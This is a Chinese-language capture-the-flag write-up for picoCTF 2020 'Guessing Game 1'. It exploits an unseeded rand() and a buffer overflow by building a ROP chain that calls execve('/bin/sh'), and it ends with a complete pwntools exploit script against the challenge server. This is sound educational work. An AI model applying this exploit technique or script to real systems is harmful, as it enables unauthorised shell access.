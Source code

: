 ```yaml
---
title: "picoCTF2020-Guessing-Game-1"
date: 2020-10-14
draft: false
tags: ["picoCTF", "CTF", "pwn"]
categories: ["picoCTF"]
---
```


這題目花了我好幾個小時

https://play.picoctf.org/events/3/challenges/challenge/90

## 開始

我們先看看 Makefile

```make
all:
  gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
clean:
  rm vuln
```

這個程式可能有 Buffer Overflow，它用 static link，不能改 plt, got

看看 `do_stuff` 和 `get_random`

```c
long get_random() {
  return rand() % BUFSIZE;
}
int do_stuff() {
  long ans = get_random();
  ans = increment(ans);
  int res = 0;

  printf("What number would you like to guess?\n");
  char guess[BUFSIZE];
  fgets(guess, BUFSIZE, stdin);

  long g = atol(guess);
  if (!g) {
    printf("That's not a valid number!\n");
  } else {
    if (g == ans) {
      printf("Congrats! You win! Your prize is this print statement!\n\n");
      res = 1;
    } else {
      printf("Nope!\n\n");
    }
  }
  return res;
}

```

輸入用 `fgets`，沒有 Buffer Overflow

但 `rand` 沒有初始化，它的值一直是固定的

用 gdb 可以很快找到 `ans` 的值

![](/img/picoCTF2020-Guessing-Game-1/random_num.png)
`ans` 固定為 `84`

> 補注: 截圖沒有截到 `rax`，但是 `rax` 應是 84

可以進到 `win` 裡面了
![](/img/picoCTF2020-Guessing-Game-1/access_first_level.png)

## 決定攻擊手法

`win` 裡面有 Buffer Overflow，明明 `BUFSIZE` 只有 100，卻可以填 360 個字元

```c++
// BUFSIZE = 100
void win() {
  char winner[BUFSIZE];
  printf("New winner!\nName? ");
  fgets(winner, 360, stdin);
  printf("Congrats %s\n\n", winner);
}
```

找到 padding
![](/img/picoCTF2020-Guessing-Game-1/offset.png)

```python
payload = 'a'*120
```

問題來了，我們可以用什麼方法破解它?

1. Shellcode<br>
   不行，有開 NX
2. return to libc<br>
   它用 static link
3. Format string<br>
   printf 看起來不能利用
4. ROP<br>
   好像可以

**決定用 ROP**

## 編寫 ROP chain

使用 ROPgadget
找不到 `pop eax`，只有 `pop rax`
![](/img/picoCTF2020-Guessing-Game-1/cannot_find_pop_eax.png)

把 `/bin/sh` 放到 `.bss` 段

```python
payload += flat([pop_rax, buf, pop_rdx, '/bin', mov_drax_edx, \
                 pop_rax, buf+4, pop_rdx, '/sh\x00', mov_drax_edx])
```

system call execve 參數

- eax: 11
- ebx: 字串 `/bin/sh` 的位置
- ecx: 0
- edx: 0

```python
payload += flat([pop_rbx, buf, pop_rax, 11, pop_rdx, 0, int_0x80])
```

> rcx 找不到適合的 gadget，只好先不理它，反正它常常是 0

> 想知道更多 system call 用法，可以到這個網站
> https://syscalls.w3challs.com/?arch=x86

## 暫存器尺寸

原本以為沒事了，沒想到...
![](/img/picoCTF2020-Guessing-Game-1/reg_size_problem.png)
輸入的資料會黏在一起

我們輸入的是 32-bit，但卻用 64-bit 的暫存器，所以必須在資料後面加上 4 個`\x00`

如果你用 flat，可以在每個指令後面都加入一個 0

```python
flat([pop_rbx, 0, buf, 0, pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
```

## 成果

```python
from pwn import *

context.arch = 'i386'
#r = process('./vuln')
r = remote('jupiter.challenges.picoctf.org', 39936)

s = r.recvuntil('?\n')

r.sendline('84')

buf = 0x6bc3a0
pop_rax = 0x4163f4
pop_rbx = 0x400ed8
pop_rdx = 0x44a6b5
mov_drax_edx = 0x48dd72
mov_rax_rdx = 0x41b570
int_0x80 = 0x468fea

payload = 'a'*120
payload += flat([pop_rax, 0, buf, 0, pop_rdx, 0, '/bin',0 , mov_drax_edx, 0,
                 pop_rax, 0, buf+4, 0, pop_rdx, 0, '/sh\x00',0 , mov_drax_edx, 0])
payload += flat([pop_rbx, 0, buf, 0, \
                 pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
# 有夠醜

raw_input()

r.recvuntil('? ')
r.sendline(payload)

r.interactive()
```

![](/img/picoCTF2020-Guessing-Game-1/final.png)
